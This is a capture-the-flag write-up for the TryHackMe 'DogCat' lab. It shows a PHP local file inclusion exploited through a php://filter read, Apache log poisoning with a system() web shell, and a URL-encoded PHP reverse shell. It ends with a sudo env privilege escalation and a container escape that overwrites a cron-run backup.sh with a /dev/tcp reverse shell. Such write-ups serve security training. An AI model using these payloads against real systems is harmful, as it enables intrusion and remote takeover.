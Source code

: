 ```yaml
---
title: DogCat TryHackMe -- Writeup
date: 2022-04-06
categories: [TryHackMe, Medium]
tags: [docker, priv-esc, linux, ctf, lfi]     # TAG names should always be lowercase
---
```


Exporting the ip, hate typing it over again.
`import ip=10.10.106.83`

### Enumeration
We got 2 open port, 22(ssh), 80(apache). fair enough lets see whats in 80

```bash
PORT   STATE SERVICE
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:B3:94:18:A1:5F (Unknown)
```

navigating to `http://10.10.106.83` give us this page, where we can click at either cat/dog.


![img](/assets/img/tryhackme/dogcat/dogcat_landing.png)

```bash
cat: http://10.10.106.83/?view=cat
dog: http://10.10.106.83/?view=dog
```

Looking at `?view=..` The first thing come to my mind is Local file inclusion (LFI). so i try including dog: `http://10.10.106.83/?view=../../../../etc/passwd` but urgh it complains only dogs/cats pic allowed. So now what i need todo is essentially read the index.php file to see what happend under the hood.
What i basically end up doing is converting the file to base64, parse it and then decode it to normal text.

`"?view=php://filter/read=convert.base64-encode/resource=./dog/../index"`

```php
 <?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
Looking at the source, we know exactly what todo now. I tried again to include passwd file now i modify it to `'http://10.10.106.83/?view=./cat/../../../../etc/passwd&ext='`

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
Now what next lmao. I can include files but still not enough. i need Remote code Execution (rce). A simple google search helped me out i found this [link](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1).
Next i try reading `/var/log/apache2/access.log` to see if i can use log poisoning. AND BOOM I CAN. Now only left is crafting payload to get a shell.

First request. this allow us to use the `cmd` parameter later to execute any php code.
```bash
nc $ip 80
GET /<?php system($_GET['cmd']);?>
```
Next is searching php reverse shell, i use [this](https://www.revshells.com/) onliner shell. then urlencode it.

```php
php -r '$sock=fsockopen("<YOURIP>",<PORT>);exec("/bin/bash -i <&3 >&3 2>&3");'
php%20-r%20%27%24sock%3Dfsockopen(%22<YOURIP>%22%2C<PORT>)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```
Final payload
```
http://10.10.156.55/?view=./cat/../../../../var/log/apache2/access.log&ext=&cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.10.39.132%22%2C4444)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

### Searching for flags.

```bash
flag1: can be found /var/www/html/flag.php THM{Th1s_1s_N0t_4_Catdog_*********}
flag2: can be found /var/www HM{LF1_t0_RC3_******}
```

### priv esc
```
User www-data may run the following commands on 005c9764143d:
    (root) NOPASSWD: /usr/bin/env
```
Well, thats kinda ez priv esc.
`sudo /usr/bin/env /bin/bash -p` Now we root <br>`flag3: can be found /root/ THM{D1ff3r3nt_3nv1ronments_*******}`

what... so where tf is flag4?.

### escaping container
So i figure it out, we're inside a container. Now our job is to somehow runaway from here.
Looking at the backup files in /opt/backup i notice something. the file backup.sh is older than backup.tar `probably some cron job on the host running the script` so what i did is replace the backup.sh content with a reverse shell hoping that the cron job run it. So i can get a shell on the host.

```bash
echo '#!/bin/bash' > backup.sh
echo '/bin/bash -i >& /dev/tcp/10.10.39.132/4445 0>&1' >> backup.sh
chmod +x backup.sh

attacker: nc -nlvp 4445
```
Oh nice it works<br> `flag4: THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_**************************}`

thanks for reading, i hope this helps :)
